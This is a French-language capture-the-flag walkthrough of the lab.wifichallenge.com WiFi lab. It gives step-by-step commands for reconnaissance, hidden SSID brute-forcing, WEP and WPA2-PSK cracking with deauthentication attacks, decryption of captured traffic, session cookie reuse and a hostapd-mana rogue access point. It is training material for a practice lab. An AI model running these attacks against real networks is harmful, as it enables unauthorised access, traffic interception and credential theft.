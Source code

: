 # lab.wifichallenge.com

Téléchargement de la VM : https://drive.proton.me/urls/Q4WPB23W7R#Qk4nxMH8Q4oQ

## Challenges 

### 1) Reconnaissance

#### Lister les clients et voir le canal de "wifi-global"

Capturer tous les paquets du réseau :

    sudo airmon-ng check kill
    sudo airmon-ng start wlan0
    
    airodump-ng wlan0mon -w scan --manufacturer --wps --band abg
    # --band abg permet de scanner 2,4Ghz et 5Ghz
    
Isoler le canal 44 si besoin : 

    airodump-ng wlan0mon -w scan --manufacturer --wps --band abg -c44


#### Obtenir l'adresse MAC du client "wifi-IT"

On capture les paquets comme avant puis on isole le canal 11 : 

    airodump-ng wlan0mon -w recon --manufacturer --wps --band abg
    airodump-ng wlan0mon -w recon --manufacturer --wps --band abg -c11
    
Création d'une base de données locale avec les résultats de la capture : 
    
    python3 ~/tools/wifi_db/wifi_db.py -d wifi.db ./recon*
    sqlitebrowser wifi.db
    
Il n'y a ensuite plus qu'à chercher le point d'accès voulu dans les différentes tables.

#### Trouver le probe de 78:C1:A7:BF:72:46

Même démarche qu'avant : 

    sudo airmon-ng check kill
    sudo airmon-ng start wlan0
    airodump-ng wlan0mon -w recon --manufacturer --wps --band abg
    python3 ~/tools/wifi_db/wifi_db.py -d wifi.db ./recon*
    sqlitebrowser wifi.db
    
#### Donner le ESSID du point d'accès caché 

On sait que l'adresse MAC du réseau est F0:9F:C2:6A:88:26

Identifier le canal du réseau :

    airodump-ng wlan0mon

Changement de canal et bruteforcing des noms avec mdk4 :

    iwconfig wlan0mon channel 11
    
    cat ~/rockyou-top100000.txt | awk '{print "wifi-" $1}' > ~/wifi-rockyou.txt
    
    mdk4 wlan0mon p -t F0:9F:C2:6A:88:26 -f ~/wifi-rockyou.txt

### 2) WEP

Le chiffrement WEP est vulnérable parce que chaque paquet transmis contient un IV (vecteur d'initialisation), et avec suffisamment de paquets capturés, il est possible de deviner la clé WEP. Le but est donc de capturer le plus de paquets possible pour extraire ces IVs et ensuite les utiliser pour craquer la clé WEP.

Si il n'y a aucun client, et donc peu de paquets, on peut quand même passer par les techniques d'injection de paquets ou de fake authentication. 

#### Trouver le flag de "wifi-old"

Reconnaissance : 

    sudo airmon-ng check kill
    sudo airmon-ng start wlan0
    airodump-ng wlan0mon -w wep --manufacturer --wps --band abg
    
On voit bien une ligne sur un réseau WEP : 

>  F0:9F:C2:71:22:11  -28       50     1795    0   3   54   WEP  WEP                wifi-old              Ubiquiti Networks Inc. 
    
    
Capture spécifique :

    airodump-ng wlan0mon -w wep --manufacturer --wps --band abg --bssid F0:9F:C2:71:22:11
    
On voit une station DA:92:58:2A:BF:A3 connectée.

Attaque à faire en parallèle pour désauthentifier les clients et capturer plus de données plus vite :
  
    aireplay-ng --deauth 10 -a F0:9F:C2:71:22:11 -c DA:92:58:2A:BF:A3 wlan0mon

Attaque finale avec Aircrack : 

    sudo aircrack-ng wep-01.cap

Après un peu d'attente on obtient bien la clé :

> KEY FOUND! [ 11:BB:33:CD:55 ] 

Connexion finale à ce point d'accès : 

    sudo airmon-ng stop wlan0mon  
    sudo apt install wpasupplicant
    sudo systemctl restart wpa_supplicant.service
    sudo systemctl restart network*
    sudo vim /etc/wpa_supplicant/wep.conf

Contenu du fichier : 

    network={
            ssid="wifi-old"
            key_mgmt=NONE
            wep_key0=11BB33CD55
            wep_tx_keyidx=0
    }

Connexion : 

     wpa_supplicant -D nl80211 -i wlan2 -c /etc/wpa_supplicant/wep.conf
     sudo dhclient wlan1 -v

### 3) WPA2 PSK

#### Obtenir le mot de passe de "wifi-mobile"

Capture : 

    sudo su
    airmon-ng check kill
    airmon-ng start wlan0
    airodump-ng wlan0mon -w psk --manufacturer --wps --band abg
    airodump-ng wlan0mon -w psk --manufacturer --wps --band abg -c 6
    

Désauthentification : 

    aireplay-ng -0 10 -a F0:9F:C2:71:22:12 wlan0mon
    

Bruteforcing de la clé : 

    aircrack-ng psk-01.cap -w ~/rockyou-top100000.txt


#### Obtenir l'IP du serveur web dans ce réseau

Utilisation de airdecap-ng pour déchiffrer le trafic, grâce à la clé précédemment obtenue : 

    airdecap-ng -e wifi-mobile -p starwars1 psk-01.cap
    
Analyse du trafic déchiffré avec Wireshark : 

    wireshark psk-01-dec.cap

#### Se connecter au site web et trouver le flag

Connexion avec wpa_supplicant : 

    wpa_supplicant -Dnl80211 -iwlan3 -c psk_1.conf
    dhclient wlan3 -v

Contenu de psk_1.conf :

    network={
        ssid="wifi-mobile"
        psk="starwars1"
        scan_ssid=1
        key_mgmt=WPA-PSK
        proto=WPA2
    }

Une fois sur le site, utiliser le cookie trouvé dans Wireshark.

#### Exploiter le manque d'isolation de ce réseau

Utilisation de l'outil arp-scan pour trouver l'IP du deuxième serveur web :

    arp-scan -I wlan3 -l
    curl 192.168.2.9
    
    
### 4) WPA2 PSK - Réseau distant à usurper

#### Trouver le mot de passe de "wifi-offices"

Le réseau "wifi-offices" n'est pas dans la liste initiale, mais on voit quelques communications avec lui apparaître avec airodump-ng : 


     (not associated)   B4:99:BA:6F:F9:45  -49    0 - 6     81      273         wifi-offices,Jason                                          
     (not associated)   78:C1:A7:BF:72:46  -49    0 - 6     84      280         wifi-offices,Jason 


Soit il est à un autre endroit, soit il a été coupé. 

Utilisation de hostapd-mana pour créer un faux point d'accès : 

    hostapd-mana wifi-offices.conf
    
Contenu de wifi-offices.conf : 

    interface=wlan1
    driver=nl80211
    hw_mode=g
    channel=1
    ssid=wifi-offices
    mana_wpaout=hostapd.hccapx
    wpa=2
    wpa_key_mgmt=WPA-PSK
    wpa_pairwise=TKIP CCMP
    wpa_passphrase=12345678


Faire un Ctrl+C pour couper l'outil dès que l'on voit la ligne suivante : 

> AP-STA-POSSIBLE-PSK-MISMATCH

Bruteforcing du handshake : 

    hashcat -a 0 -m 2500 hostapd.hccapx ~/rockyou-top100000.txt --force
    

    
